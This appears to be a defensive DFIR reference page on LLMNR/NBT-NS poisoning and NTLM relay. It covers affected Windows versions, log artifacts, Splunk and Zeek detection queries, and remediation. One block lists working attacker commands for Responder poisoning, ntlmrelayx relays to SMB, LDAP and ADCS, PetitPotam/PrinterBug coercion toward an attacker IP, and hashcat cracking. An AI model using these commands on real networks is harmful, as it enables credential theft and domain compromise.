

# LLMNR/NBT-NS Poisoning & NTLM Relay

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1557.001 (Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay) · T1187 (Forced Authentication) · **Tactic:** Credential Access / Lateral Movement · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    When DNS cannot resolve a name, Windows falls back to **multicast/broadcast** name resolution — **LLMNR** (UDP 5355), **NBT-NS** (UDP 137) and **mDNS** (UDP 5353). Anyone on the same subnet can answer "that's me". The victim then authenticates to the attacker with **NTLM**, which the attacker either **captures** (NetNTLMv2 hash → offline cracking) or **relays** in real time to another server (SMB, LDAP, HTTP/ADCS) to act as the victim. **Coercion** bugs (PetitPotam, PrinterBug/SpoolSample, DFSCoerce) let the attacker *force* a server — even a DC — to authenticate on demand. This is one of the most common first steps on an internal network test, and it needs no credentials at all.

## How the attack works



Relay only works when the **target does not require signing / channel binding** for that protocol. That is why SMB signing, LDAP signing + channel binding and EPA on HTTP are the core defences.

## Attacker tooling / commands

```text
# Poison + capture
Responder -I eth0 -wd                         # LLMNR / NBT-NS / mDNS / WPAD

# Relay instead of capture (Responder SMB/HTTP servers off)
ntlmrelayx.py -tf targets.txt -smb2support    # relay to SMB hosts without signing
ntlmrelayx.py -t ldaps://dc01 --delegate-access   # RBCD via LDAP
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs   # ESC8

# Coerce a server to authenticate to us
PetitPotam.py  attacker_ip  dc01             # MS-EFSRPC
printerbug.py  CORP/user@dc01 attacker_ip    # MS-RPRN (Print Spooler)

# Find relay targets
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt   # hosts with signing not required

# Crack captured hash
hashcat -m 5600 netntlmv2.txt wordlist.txt
```

## Affected Windows versions

| Version | LLMNR | NBT-NS | SMB signing required by default | NTLMv1 |
|---|---|---|---|---|
| **XP / 2003** | Not present | **On** | DCs only | Allowed (LM/NTLMv1 used by default on XP) |
| **Vista / 2008 → 10 / 2022** | **On** | **On** | DCs only | Allowed unless `LmCompatibilityLevel=5` |
| **11 24H2 / Server 2025** | On (can be disabled) | On | **Required for all outbound and inbound SMB** by default | **Removed** |

Coercion: **PetitPotam** (CVE-2021-36942) affected Server 2008 → 2022 and was only partly fixed — the unauthenticated path was patched, authenticated coercion still works. **PrinterBug** is a *design* feature of the Print Spooler on every version that runs the service.

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| Network | [Zeek `dns.log`](../network/zeek/dns-log.md) — queries on **port 5355 / 137 / 5353** answered by a host that is not a DNS server | Poisoning responder. Same IP answering many different names = Responder |
| Network | Zeek `ntlm.log` — `server_nb_computer_name` / `hostname` mismatch, or a workstation acting as an NTLM *server* to many clients | Capture / relay host |
| Network | Zeek `smb_mapping.log` / `conn.log` — workstation → workstation SMB 445 | Relay to SMB |
| Relay target Security log | **4624 Type 3, NTLM**, where `Workstation_Name` does **not** match the hostname of `Source_Network_Address` | The classic relay signature: the victim's name, the attacker's IP |
| Relay target | **4624** with `Authentication_Package=NTLM` and `Package_Name=NTLM V1` | NTLMv1 in use — downgradeable / crackable |
| DC Security log | **5145** access to `\\DC\IPC$` with `RelativeTargetName` `efsrpc`, `lsarpc`, `spoolss`, `netdfs` from an unusual source | Coercion attempts |
| Victim host | Microsoft-Windows-SMBClient/Security **31001** (failed logon to share) referencing an unexpected server | User tried to reach a typo'd share that the attacker answered |

## Detection

=== "Splunk — relay (name/IP mismatch)"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4624 Logon_Type=3 Authentication_Package=NTLM
    | where Account_Name!="ANONYMOUS LOGON" AND NOT match(Account_Name,"\$$")
    | lookup dnslookup clientip AS Source_Network_Address OUTPUT clienthost AS resolved
    | eval resolved_short=upper(mvindex(split(resolved,"."),0))
    | where isnotnull(resolved_short) AND resolved_short!=upper(Workstation_Name)
    | table _time, host, Account_Name, Workstation_Name, Source_Network_Address, resolved_short
    ```

    `4624 Type 3` = network logon. In a relay, `Workstation_Name` is the **victim's** machine name (it came from the victim's NTLM message), but `Source_Network_Address` is the **attacker's** IP. `lookup dnslookup` is Splunk's built-in reverse-DNS lookup; `split(...,".")` + `mvindex(...,0)` takes the short hostname. A mismatch is a relay candidate. (DHCP churn causes some noise — tune with your asset inventory instead of DNS if you have one.)

=== "Splunk — NTLMv1 still in use"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4624 Package_Name="NTLM V1"
    | stats count by host, Account_Name, Workstation_Name
    ```

    `Package_Name` (Security log field "Package Name (NTLM only)") shows `NTLM V1` or `NTLM V2`. Any v1 traffic is crackable regardless of password strength and should be eliminated before you can set `LmCompatibilityLevel=5`.

=== "Zeek — poisoning responder"

    ```bash
    zeek-cut ts id.orig_h id.resp_h id.resp_p query answers < dns.log \
      | awk '$4==5355 || $4==137 || $4==5353' \
      | awk '{print $3}' | sort | uniq -c | sort -rn | head
    ```

    Keep multicast/broadcast name-resolution traffic, then count which responder IP answers. One host answering for many different names is Responder.

## Response

Find and isolate the poisoning host (the responder IP), then treat every account whose NetNTLMv2 was captured as at risk — reset those with weak passwords first. For relays, identify what the attacker did *as* the victim on the target (new services, RBCD changes on computer objects, certificates issued).

### Remediation by Windows version

| Control | What it stops | Available on |
|---|---|---|
| Disable **LLMNR** — GPO *Computer › Admin Templates › Network › DNS Client › Turn off multicast name resolution* | LLMNR poisoning | **Vista / 2008+** (XP has no LLMNR) |
| Disable **NetBIOS over TCP/IP** — adapter setting, DHCP option 001, or `NetbiosOptions=2` via script | NBT-NS poisoning | All versions (no native GPO; use DHCP or script) |
| Disable **mDNS** (`EnableMDNS=0` under `Dnscache\Parameters`) | mDNS poisoning | Windows 10 1703+ / 11 |
| **Require SMB signing** (client + server) | SMB relay | Configurable on **all versions**; **default on 11 24H2 / Server 2025** |
| **LDAP signing** + **LDAP channel binding** on DCs | LDAP/LDAPS relay (RBCD, shadow credentials) | 2008+ (channel binding from the March 2020 updates); stricter defaults on Server 2025 |
| **EPA** (Extended Protection for Authentication) + HTTPS only on IIS / ADCS web enrollment | HTTP relay incl. ESC8 | 7 / 2008 R2+ with updates |
| `LmCompatibilityLevel=5` (NTLMv2 only, refuse LM & NTLMv1) | NTLMv1 downgrade / cracking | All; NTLMv1 **removed** on 11 24H2 / Server 2025 |
| Disable **Print Spooler** on DCs and servers that don't print; patch PetitPotam; filter EFSRPC via RPC filters | Coercion | All versions with Spooler; EFSRPC filtering 2012 R2+ |
| Restrict NTLM (*Network security: Restrict NTLM* policies), add admins to **Protected Users** | Reduces NTLM attack surface overall | 7 / 2008 R2+; Protected Users DFL 2012 R2+ |

## References

- [MITRE ATT&CK — T1557.001](https://attack.mitre.org/techniques/T1557/001/) · [T1187](https://attack.mitre.org/techniques/T1187/)
- [Microsoft — SMB signing required by default in Windows 11 24H2](https://techcommunity.microsoft.com/blog/filecab/smb-signing-required-by-default-in-windows-insider/3831704)
- Pages: [ADCS abuse](adcs-abuse.md) · [PrintNightmare & Spooler](printnightmare.md) · [Zeek dns.log](../network/zeek/dns-log.md) · [Pass-the-Hash](pass-the-hash.md)
